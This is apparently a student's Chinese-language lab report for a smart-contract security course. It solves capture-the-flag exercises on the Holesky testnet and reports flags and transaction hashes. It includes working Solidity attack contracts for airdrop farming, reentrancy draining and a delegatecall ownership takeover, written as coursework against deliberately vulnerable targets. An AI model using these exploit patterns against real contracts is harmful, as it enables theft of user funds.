# lab-04: 智能合约安全基础

了顺利完成本次作业，你需要掌握：

1. 以太坊区块链账户创建、发送交易等基本操作
2. 以太坊智能合约的编写、部署、调用的方法
3. 以太坊智能合约的经典漏洞（整型溢出、薅羊毛、重入攻击等）
4. （选做）智能合约 delegatecall 的原理和利用

> 注意：为了防止报告抄袭，请确保你在本实验中使用的账户地址都是同一个，我们会通过发送交易的地址来检测报告抄袭。

## 1 以太坊区块链的基本操作 (20 pts)

> 本部分 20 分需要你完成以上流程，向任意地址发送出一条 0.1 ETH 的转账交易，并将交易的 hash 和在区块浏览器上的截图写在实验报告中。

在 lab0 中已经完成了环境部署、测试币获取等内容，以下是交易转账信息截图：
- Transaction Hash: `0x3e991792b3c4eec56cac5537aeb5e9015e26d978d5386eec666529257464564d`



## 2 以太坊智能合约基础 (20 pts)

> 本部分的 20 分需要你完成以上流程，在 holesky 测试链上部署任意一个智能合约，调用其中的函数，并将合约的地址同样写在实验报告中。

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract SimpleContract {
    uint256 public number;
    
    constructor() {
        number = 1;
    }

    function set(uint256 x) public {
        number = x;
    }

    function get() public view returns (uint256) {
        return number;
    }
}
```



在 Holesky 上部署智能合约：





- 调用 set 函数的 Transaction Hash: `0x03775b8aee1374924f9026c9cb81d6b5ff1dbaa92215e8852c6eb6fd02f25fc3`
- Target Contract Address: `0x8c65035E969dd6C94B5f2f4460f9FFc11632dac4`

## 3 整型溢出漏洞利用 (20 pts)

阅读源码，分析漏洞：

- `init` 函数：初始化用户余额，将发送者的余额设为 20。
- `transfer` 函数：执行转账操作，减去发送者的余额，并增加接收者的余额。这里没有正确处理溢出情况，在 `balances[msg.sender] - _value >= 0` 的条件中，虽然它检查余额是否足够，但并没有防止负数余额的情况。
- `win` 函数：要求发送者的余额大于 20，并触发 SendFlag 事件。

本地测试通过：



合约目标地址: `0xf2FDaaADFC97c86510A8B72829fb372234796146`
token: `v4.local.EOfc61fOGn53nwzch0Fx9wkhMdYOTaAkN8lsFVqeAMieEadZmsffceWXzFlMnbpGYtI4WXiZYYP76VmBARfeAoIMt6tmgsTzMuKCuYVwdfaO8gv5ae-Nw_uQ1qoibdA1BqnUMtA12vGRzZ--t3O23DJhokdRKM7bWqq48Rf6dYdxoQ`



## 4 薅羊毛攻击 (20 pts)

- target contract address: `0x7bE672efE8Bc886D429DD2ca87a7fe2060c15C04`
- token: `v4.local.0KVg63_mkPKvHEZZqK0z_y0LgQNt84p_P7n4F0U9vFivYtIQBvarC5fM1WYQt9Crg4LuwkdPpi_xF9CSdGnuELmyNmQnXIlOvzPnwHKYyuYg7B12jDd69R4GHUwi5IAyl10EcoPQXIcmsKWvpfxz3wzNsih_ZNJFIQfzUJz0JmBUYw`
- transaction hash: `0xfc7c3bc28eed4f9bb963870e2a4229f4ecf44d58749e1fcfb78e701805c171b6`

利用函数：

- `profit()`：领取空投，每个地址每次领取 20 个代币。
- `transfer(address to, uint256 amount)`：将代币从当前地址转移到目标地址。

```sol
function transfer(address to, uint256 value) public virtual returns (bool) {
        address owner = _msgSender();
        _transfer(owner, to, value);
        return true;
}
```

代码实现：

- 创建 Bot 合约，每次创建一个新的 Bot 合约实例，通过它的 execute 函数领取代币。
- 创建 Attack 合约：
    - 调用 profit()，初始化 Attack 合约地址的代币余额。
    - 动态创建 30 个 Bot 子合约：每个子合约负责领取 20 个代币并将其转移到 Attack 合约地址。
    - 调用 getFlag()：当 Attack 合约地址的代币余额达到 500 时，触发奖励。

```sol
contract Bot {
    function execute(address attack, AirDrop airdrop) public {
        airdrop.profit();
        airdrop.transfer(attack, 20);
    }
}

contract Attack {
    function attack(AirDrop airdrop) public {
        airdrop.profit();
        for (uint i = 0; i < 30; i++) {
            Bot bot = new Bot();
            bot.execute(address(this), airdrop);
        }
        airdrop.getFlag();
    }
}
```

链上测试通过，得到 flag: `ssec2024{nOw_YoU_KnOw_hoW_7O_A1RDrOP_HuNTIn9|7400b2ad}`



## 重入攻击

- `msg.sender.call{value: _amount}("")）`。
    - 在这里，msg.sender 是调用 withdraw 函数的地址，它可能是一个外部账户（EOA，Externally Owned Account），也可能是另一个**合约地址**。
    - call 是一种灵活的低级操作，它允许调用任何合约的函数并发送以太币，同时可以指定要执行的函数签名。与 transfer 和 send 不同，call **不会自动检查转账是否成功**，并且会触发目标地址的**回调函数**（例如 fallback() 或 receive() 函数）。
    - 在目标合约的 withdraw 函数中使用 call 会触发目标地址的回调函数。我的合约可以在回调函数中再次调用 withdraw 函数，从而导致资金被多次提取。

代码实现：

```sol
contract Attack {
    Reentrance public reentrance;

    event ReentranceTriggered(uint256 amount);

    constructor(address payable _reentrance) {
        reentrance = Reentrance(_reentrance);
    }

    function startAttack() public {
        uint256 amount = reentrance.balanceOf(address(this));
        reentrance.withdraw(amount);
    }

    receive() external payable {
        uint256 target_balance = address(reentrance).balance;
        uint256 my_balance = reentrance.balanceOf(address(this));
        uint256 amount = target_balance < my_balance ? target_balance : my_balance;

        emit ReentranceTriggered(amount);

        if (amount > 0) {
            reentrance.withdraw(amount);
        }
    }
}
```

1. 部署 Attack 合约，传入 Reentrance 合约地址。tx: `0x93730dfcf844f6178587abd1dd4b4894e46b63757a722b734fae5c800b1e28b0`
2. 调⽤ Reentrance.donate 为 Hack 合约捐款 1 Finney, tx: `0xf635e8983981e69e252a1f90dcc41e121588836052677600b8170eb7f95165e7`
3. 调⽤ Attack.startAttack 提取捐款, tx: `0xb2738f82ab5a1971b5ce43c8890ba93eb61f1fcc27766c587fde21775eada84e`

我的 token: `v4.local.XhTyPHsHJrVfWiVNLM7mKQPBqNdfVE90GYCfaSkaPz3O5rDlGW2tDWv7pW_0BZjVEvQyttSQXusmFnaLyOvDzvX4rN0X8kpytiy04EGYScwCESZlYpCHrbeZHzQQjTuXPj7UcAz10HT5fLyi7t2WVmdLWRxSQ_Sjokw4FgVoVNxCUA`

通过测试，得到 flag 为 `ssec2024{R3-EnTR4Ncy_1s_VErY_d4NG3rOUs|2ed0414d}`



## Bonus 合约逆向与 delegatecall 利用 (20 pts)
最后我们将合约的逆向以及 delegatecall 的利用作为本次实验的 bonus。
通过 nc 8.154.20.109 10504 可以同样访问这道题目，不过它并不会给你题目的源码，你需要找到合约字节码并通过 https://app.dedaub.com/decompile 等反编译工具来了解合约的逻辑，并完成漏洞的利用，拿到 flag。
> Hint：本题中出现了一个字节码 DELEGATECALL，这也是本题的主要漏洞所在，你可以在 evm.codes 了解这个字节码的用途，以及它和普通 call（CALL 字节码）的区别。你可能也需要了解更多关于 function selector 的知识，可以见 solidity 文档，或自行搜索。
> 为了拿到 bonus，你需要完成本题，并在实验报告中描述你的逆向过程和结果、思路、攻击方法，并粘贴你的攻击合约源码（exp）、目标合约地址、flag 和其他必要过程，部分完成可以得到部分分数。

### 分析源码

在 etherscan 上找到合约的字节码，通过反编译工具得到合约源码：





得到合约源码：

合约入口函数 `main`

```solidity
function main() {
    // 初始化内存指针
    memory[0x40:0x60] = 0x80;

    // 检查是否发送了以太币，若有则回滚
    if (msg.value) { revert(memory[0x00:0x00]); }

    // 检查 msg.data 长度是否有效（至少 4 字节）
    if (msg.data.length < 0x04) { revert(memory[0x00:0x00]); }

    // 提取函数选择器 (msg.data 前 4 字节)
    var0 = msg.data[0x00:0x20] >> 0xe0;

    // 根据函数选择器分发处理
    if (var0 == 0x27d6974f) {
        // 调用 timeZone2Library()
        return func_0484(func_0103(), memory[0x40:0x60]);
    } else if (var0 == 0x3dc79422) {
        // 调用 timeZone1Library()
        return func_0484(func_0129(), memory[0x40:0x60]);
    } else if (var0 == 0x5bda8fa4) {
        // 调用 setSecondTime(uint256)
        func_00B8(func_03AA(msg.data.length, 0x04));
        stop();
    } else if (var0 == 0x8da5cb5b) {
        // 调用 owner()
        return func_0484(func_021B(), memory[0x40:0x60]);
    } else if (var0 == 0xf1e02620) {
        // 调用 setFirstTime(uint256)
        func_00F2(func_03AA(msg.data.length, 0x04));
        stop();
    } else if (var0 == 0xf9633930) {
        // 调用 getFlag()
        getFlag();
        stop();
    } else {
        // 未匹配函数，回滚
        revert(memory[0x00:0x00]);
    }
}
```

功能函数：

1. `timeZone1Library` 和 `timeZone2Library`
    - 这两个函数分别读取 `storage[0x00]` 和 `storage[0x01]` 的地址。
    - 用于获取时间库的地址。

```solidity
function func_0103() returns (var r0) {
    return storage[0x01] & 0xffffffffffffffffffffffffffffffffffffffff;
}

function func_0129() returns (var r0) {
    return storage[0x00] & 0xffffffffffffffffffffffffffffffffffffffff;
}
```

2. 设置时间值函数

    - **`setFirstTime` 和 `setSecondTime`** 使用 `delegatecall` 将时间值的处理委托给外部合约（地址存储在 `storage[0x00]` 或 `storage[0x01]`）。

```solidity
function func_00B8(var arg0) {
    var delegateTarget = storage[0x01]; // 获取时间库地址
    delegatecall(delegateTarget, arg0); // 调用时间库
}

function func_00F2(var arg0) {
    var delegateTarget = storage[0x00]; // 获取时间库地址
    delegatecall(delegateTarget, arg0); // 调用时间库
}
```

3. 合约所有者管理
    - 返回存储在 `storage[0x02]` 的所有者地址。
    - 确保只有合约所有者能够调用某些功能，例如 `getFlag()`。

```solidity
function func_021B() returns (var r0) {
    return storage[0x02] & 0xffffffffffffffffffffffffffffffffffffffff;
}

function getFlag() {
    // 确认调用者是合约所有者
    if (msg.sender != func_021B()) { revert(memory[0x00:0x00]); }

    // 记录事件日志
    log(memory[0x40:0x60], [0x23ddb4dbb8577d03ebf1139a17a5c016963c43761e8ccd21eaa68e9b8ce6a68e]);
}
```

4. 参数处理函数
    - 提取并校验函数参数。
    - 用于确保参数格式正确，例如时间值的长度校验。

```solidity
function func_03AA(var arg0, var arg1) returns (var r0) {
    if (arg0 - arg1 < 0x20) { revert(memory[0x00:0x00]); } // 长度校验
    return msg.data[arg1:arg1 + 0x20]; // 返回参数值
}
```

分析合约代码：

1. **合约存储布局**
   - `storage[0x00]`: timeZone1Library地址
   - `storage[0x01]`: timeZone2Library地址 
   - `storage[0x02]`: owner地址

2. **关键函数**
   - `setFirstTime(uint256)`: 使用`delegatecall`调用`timeZone1Library`的`setTime`函数
   - `getFlag()`: 只有`owner`可以调用

3. **漏洞成因**
   - `delegatecall`在调用合约的上下文中执行代码，任何 Storage Slot 的修改都会影响原合约
   - `timeZone1Library`地址可以被篡改，导致`delegatecall`可以指向任意地址
   - 存储布局固定，可以精确定位和修改`owner`变量

### 攻击思路

攻击利用`delegatecall`的特性，分两步实现：

1. 修改时间库地址
   - 调用`setFirstTime`，传入攻击合约地址
   - 此时`timeZone1Library`(storage[0])被修改为攻击合约地址

2. 修改owner
   - 再次调用`setFirstTime`
   - 通过`delegatecall`执行攻击合约的`setTime`函数
   - 在原合约上下文中修改`owner`为攻击合约地址

### 攻击合约代码

```solidity
contract Attack {
    // 匹配存储布局
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    
    // 攻击函数
    function setTime(uint256) public {
        owner = msg.sender;  // 修改owner为消息发送者
    }
    
    // 触发delegatecall
    function attack(address target) public {
        // 第一次调用：修改timeZone1Library
        bytes4 selector = bytes4(0xf1e02620);
        target.call(abi.encodeWithSelector(selector, uint256(uint160(address(this)))));
        
        // 第二次调用：修改owner
        target.call(abi.encodeWithSelector(selector, uint256(uint160(address(this)))));
        
        // 获取flag
        bytes4 getFlagSelector = bytes4(0xf9633930);
        target.call(abi.encodeWithSelector(getFlagSelector));
    }
}
```

1. 部署攻击合约
2. 调用`attack`函数执行攻击流程

成功获取flag：`ssec2024{tHER3_aRE_m0rE_VULNS_foR_Y0u_t0_eXpLoR3|345e659}`



- Token：`v4.local.aV7TE0E5s--LTGN5Q18H_ZteWjZ_m0PXLkdL6gbFpGC_bkAcHgqskl8rcry4EupTx3MKkSvPVf2OczAtqlmUvjMLK0B3T8s7aPM3xY-N5EqIuuFX7orYiQ4n1V6RBAA813Qjjbn6-8VFp3atNuhIPuV3G7gVhHiOUNO7EWGmORp2Tg`
- Target Contract Address: `0x7A870a729E7e83cA9b6bE6bB559280b9Ee4eB70E`
- Transaction Hash: `0x0501eead021a225128e7986278e18dce3e9c629304ec05a017081aaea5794b97`
